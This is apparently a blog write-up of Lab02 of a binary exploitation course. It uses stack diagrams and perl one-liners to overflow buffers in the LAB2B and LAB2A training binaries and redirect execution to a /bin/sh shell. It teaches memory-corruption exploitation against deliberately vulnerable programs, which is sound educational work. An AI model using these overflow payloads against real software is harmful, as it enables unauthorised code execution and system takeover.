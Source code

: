 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab02 Memory Corruption write-up"
author: A1phaZer0
layout: post
category: Write-ups
---
```


> **LAB2B:**

```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|               |
|               |
|_______________|(pointer to '/bin/sh')
|__p_to_string__|
|_____ret_______|
|___ebp_main____|<- ebp_print_name
|               |
|               |
|_______________|
|__p_to_string__|
|_____dest______|(ebp_print_name-0x17)
```
<!--more-->

Now, it's clear, we just need 0x17 bytes to override until `ebp_print_name`, then 4 bytes to override `ebp_print_name`, then 4 bytes to override `ret`, we can redirect `ret` to function `shell`.  
After returning from `print_name`, `esp` will point to `p_to_string`, since function `shell` use `ebp-0x8` as argument, so we need put pointer to '/bin/sh' into somewhere 4 bytes after `p_to_string`.
```bash
$ ./lab2B $( perl -e 'print "A"x27 . "\xbd\x86\x04\x08" . "\xd0\x87\x04\x08"x2' )
```

> **LAB2A:**

```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp_c
|               |
|               |
|_______________|<- ebp_c - 0x14
|_ebp_c_-_0x14__|<- ebp_c - 0x18
|_______i_______|
|               |
|               |
|               |
|_______________|<- ebp_c - 0x28
|_______________|
|_______________|
|_____0x10______|<- 'size' argument in fgets(), means 15 chars at most.
|_ebp_c_-_0x28__|
```
`i` is a counter, starts from `0x0` to `0x9`, everytime fgets() reads a string to `ebp_c - 0x28`, `i` increases by 1, then one character is taken to `ebp_c - 0x14`.  
Since there are 12 bytes between `ebp_c - 0x28` and i, but fgets() can at most read 15 characters, so we can override i, by that `ret` will also be modified.
```bash
$ for i in $( seq 1 24 ); do perl -e 'print "a" x 12 . "\x0a"'; done > /tmp/abc
$ perl -e 'print "\xfd" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x86" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x04" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x08" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "a" x 11 . "\x0a"' >> /tmp/abc
$ for i in $( seq 1 10 ); do perl -e 'print "a" x 10 . "\x0a"'; done >> /tmp/abc
$ { cat /tmp/abc; echo "whoami"; } | ./lab2A
```
**NOTICE:**
+ `\x0a` also is `\n`.  
+ In both cases, we expect to run `system('/bin/sh')`, but there're tiny differences between LAB2B and LAB2A.  
  In LAB2B you will finally get an interactive shell, because new shell will inherit standard input as it's input.  
  In LAB2A new shell is connected to a pipe(buffer), when left command-list finished there will be an `EOF` and pipe will be closed so does the new shell. So we need to override `i` back to 0(NULL, fgets() can do it), to make sure fgets() read enough data and finish properly, in the end `whoami` will not be swallowed but redirected to the new shell.
